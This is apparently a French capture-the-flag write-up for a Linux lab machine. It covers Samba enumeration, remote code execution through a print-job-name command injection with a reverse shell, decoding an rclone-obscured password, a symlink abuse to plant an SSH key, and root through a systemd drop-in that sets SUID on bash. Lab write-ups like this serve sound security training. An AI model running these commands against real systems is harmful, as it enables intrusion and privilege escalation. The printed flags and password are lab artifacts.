








## 📋 Informations Générales
- **Machine :** `Abducted`
- **Difficulté :** Medium 
- **OS :** Linux (Ubuntu)
- **Objectifs :** 
  - [ ] Accès Initial (`nobody`) via CVE-2026-4480
  - [ ] Pivot Utilisateur 1 (`scott`) via Rclone Decoding
  - [ ] Pivot Utilisateur 2 (`marcus`) via Samba Symlink Abuse
  - [ ] Élévation de Privilèges (`root`) via Systemd Service Drop-in

---

##  Phase 1 : Énumération & Reconnaissance

### 1. Scan de Ports Nmap
Le scan initial permet de cartographier la surface d'attaque réseau :
```bash
nmap -sC -sV 10.129.244.177
```

> **Note**
> **Ports Ouverts :**
> - **Port 22/tcp** : SSH (OpenSSH 9.6)
> - **Port 139, 445/tcp** : Samba (SMB)



### 2. Énumération des Partages Samba
Connexion anonyme pour lister les partages disponibles sur la cible :
```bash
smbclient -L //10.129.244.177/ -N
```

```bash
Enum4linux -a 10.129.244.177
```

> **Important**
> **Découvertes majeures :**
> - Présence d'un partage d'imprimante nommé `HP-Reception`.
> - Ce partage possède l'option `guest ok = yes`, permettant à n'importe quel utilisateur non authentifié d'interagir avec le protocole de spoulage d'impression.
> - Identification des utilisateurs cibles potentiels : `scott` et `marcus`.





---

## Phase 2 : Accès Initial (CVE-2026-4480)

> **Info**
> ### 💡 Concept Éducatif : L'impression sous Samba
> Pour envoyer un document à une imprimante Linux, Samba s'appuie sur la directive `print command` dans son fichier de configuration. Il utilise des macros textuelles pour transférer les métadonnées du document. La macro **`%J`** (Job Name) récupère directement le nom textuel du fichier donné par l'utilisateur.

### Mécanisme de la Vulnérabilité (CWE-78)
La faille **CVE-2026-4480** est une injection de commande à distance (RCE). Elle se produit parce que Samba transmet la macro `%J` (le nom de la tâche d'impression) à un interpréteur de commandes système sans nettoyer ni échapper les caractères spéciaux. Un attaquant peut donc inclure des caractères comme `;`, `|` ou `` ` `` dans le nom de sa tâche pour forcer le serveur à exécuter des commandes arbitraires avec les privilèges du processus Samba (l'utilisateur `nobody`).

### Exploitation
En utilisant un script d'exploitation public (`exploit.py`) qui communique avec le spouleur d'impression Samba, nous envoyons notre payload de reverse shell.

1. **Ouverture de l'écouteur Netcat sur Kali :**
   ```bash
   nc -lvnp 4444
   ```
2. **Déclenchement du PoC :**
   ```bash
   python3 exploit.py 10.129.244.177 10.10.15.109 4444
   ```
3. **Réception de la connexion :**
   ```bash
   connect to from (UNKNOWN) 45612
   nobody@abducted:/var/spool/samba\$
   ```

---

## Phase 3 : Pivot - De `nobody` à `scott`

### 1. Recherche ciblée des fichiers de configuration
Une fois le reverse shell obtenu avec l'utilisateur `nobody`, l'objectif est de trouver des fichiers de configuration spécifiques ou mal protégés contenant des informations d'authentification. 

Nous exécutons une commande de recherche (`find`) pour lister tous les fichiers `.conf` du système, en excluant volontairement les répertoires standards `/usr/` et `/etc/` afin de masquer le bruit de fond de l'OS :

```bash
find / -type f -name "*.conf" 2>/dev/null | grep -Ev "^/usr/|^/etc/"
```

> **Important**
> **Résultat marquant :**
> Parmi les fichiers retournés, un répertoire non standard attire immédiatement notre attention :
> `/opt/offsite-backup/rclone.conf`



### 2. Analyse du fichier de sauvegarde
La lecture de ce fichier révèle la configuration d'un serveur de sauvegarde SFTP externe avec un mot de passe obscurci :
```bash
nobody@abducted:/var/spool/samba\$ cat /opt/offsite-backup/rclone.conf
[offsite]
type = sftp
host = backup.hartley-group.internal
user = svc-backup
pass = HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
shell_type = unix
```

> **Info**
> ### 💡 Concept Éducatif : L'obscurcissement Rclone
> L'outil `rclone` (utilisé pour synchroniser et sauvegarder des fichiers) possède une fonction de masquage pour éviter que les mots de passe ne soient lisibles d'un simple coup d'œil. Ce mécanisme n'est pas un chiffrement cryptographique fort : il applique une clé de chiffrement AES statique et universelle codée en dur dans l’application. N'importe quel attaquant peut inverser ce processus à l'aide de l'outil lui-même.

### 3. Décodage du mot de passe
Après une première tentative contenant une faute de frappe (`reveale`), nous exécutons la commande native correcte pour demander à `rclone` de décoder la chaîne de caractères :

```bash
rclone reveal HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
```
**Mot de passe en clair découvert :** `iXzvcib3SrpZ`



### 4. Authentification SSH & Capture du Flag
En raison de la réutilisation fréquente des mots de passe pour les comptes de services et les comptes d'utilisateurs sur les systèmes Linux d'entreprise, nous basculons sur un terminal SSH propre depuis notre machine Kali pour tester ce mot de passe sur le compte de l'utilisateur `scott` :

```bash
ssh scott@10.129.244.177
```
L'authentification réussit.

### 🎯 [FLAG USER]
```bash
scott@abducted:~\$ cat user.txt
4067f85e24fd42204c088b3f22475e61
```



---

## Phase 4 : Pivot - De `scott` à `marcus`

### 1. Énumération de la configuration Samba étendue
L'inspection du fichier `/etc/samba/shares.conf` dévoile une mauvaise configuration flagrante sur le partage `[transfer]` :

```ini
[transfer]
   path = /srv/transfer
   valid users = scott
   force user = marcus
   wide links = yes
```



> **Info**
> ### 💡 Concept Éducatif : Liens Symboliques & Force User
> - **`force user = marcus`** : Indique à Samba que toutes les opérations d'écriture/lecture réseau sur ce partage seront exécutées avec les privilèges de l'utilisateur **`marcus`**.
> - **`wide links = yes`** : Autorise Samba à suivre des liens symboliques (raccourcis) pointant en dehors de la racine du partage (vers le reste du système Linux).

###  Pourquoi le lien symbolique est indispensable ici ?
Si `scott` tente d'écrire directement dans `/home/marcus` en ligne de commande SSH, Linux bloque l'accès car Scott n'est pas Marcus. 
Cependant, à travers le réseau (via Samba), l'option `force user` permet d'obtenir les droits de Marcus. Pour exploiter cela, nous devons poser un "raccourci" (lien symbolique) dans le dossier de partage `/srv/transfer` pointant vers `/home/marcus`. Lorsque nous l'emprunterons via le réseau, Samba nous laissera manipuler les fichiers personnels de Marcus.

### 2. Exploitation du tunnel réseau
1. **Création du lien symbolique (Côté Scott, via SSH) :**
   ```bash
   ln -s /home/marcus /srv/transfer/tunnel_marcus
   ```
2. **Génération d'une nouvelle clé SSH sur Kali :**

   ```bash
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa_abducted -N ""
   ```
3. **Injection de la clé publique via Samba :**
   Nous nous connectons au partage Samba depuis Kali. En entrant dans le dossier `tunnel_marcus`, nous atterrissons dans le vrai répertoire personnel de Marcus avec ses propres droits d'écriture :
   ```bash
   smbclient //10.129.244.177/transfer -U scott
   smb: \> cd tunnel_marcus
   smb: \tunnel_marcus\> mkdir .ssh
   smb: \tunnel_marcus\> cd .ssh
   smb: \tunnel_marcus\.ssh\> put /home/kali/.ssh/id_rsa_abducted.pub authorized_keys
   ```
4. **Connexion SSH :**
   Nous pouvons maintenant ouvrir une session SSH directement sous l'identité de Marcus sans mot de passe :
   ```bash
   ssh -i ~/.ssh/id_rsa_abducted marcus@10.129.244.177
   ```

🖼️ *[Insérer Capture d'écran : Création du lien symbolique et injection via smbclient]*

---

##  Phase 5 : Élévation de Privilèges (`root`)

### 1. Énumération du groupe `operators`
La commande `id` montre que Marcus appartient au groupe `operators`. Une recherche des fichiers liés à ce groupe révèle un droit d'écriture dans le dossier d'extension de Systemd pour Samba :
```bash
find / -group operators 2>/dev/null
# Résultat : /etc/systemd/system/smbd.service.d
```

> **Info**
> ### 💡 Concept Éducatif : Fichiers Drop-in Systemd & SUID
> - **Fichier Drop-in (.conf)** : Systemd permet d'ajouter des configurations à un service via des petits fichiers `.conf` additionnels. Systemd exécute toujours ces directives avec les privilèges de l'utilisateur **ROOT** au démarrage du service.
> - **Bit SUID (`+s`)** : C'est un droit spécial Linux. Si un fichier possède ce bit, n'importe quel utilisateur qui l'exécute héritera temporairement des privilèges du propriétaire du fichier (ici `root`).

### 2. Injection via la directive `ExecStartPre`
Nous exploitons notre droit d'écriture pour insérer la directive `ExecStartPre`, qui ordonne à Systemd d'exécuter une commande root spécifique juste avant d'initialiser Samba. La commande ciblée appliquera le bit SUID (`+s`) sur le binaire `/bin/bash`.

1. **Création du fichier d'extension malveillant :**
   ```bash
   cat > /etc/systemd/system/smbd.service.d/privesc.conf << 'EOF'
[Service]
ExecStartPre=/bin/bash -c 'chmod +s /bin/bash'
EOF

   ```
2. **Prise en compte par le système et forçage du démarrage :**
   ```bash
   systemctl daemon-reload
   systemctl start smbd
   ```
3. **Vérification du privilège :**
   Le binaire `/bin/bash` possède dorénavant le droit SUID (`-rwsr-xr-x`).

### 🎯 [FLAG ROOT]
Nous exécutons Bash en activant le mode privilégié (`-p`) pour préserver les droits root obtenus grâce au SUID :

```bash
marcus@abducted:~\$ bash -p
bash-5.2# whoami
root
bash-5.2# cat /root/root.txt
06d485b47f53c36034abc725472706eb
```



---
_3ch0 training_
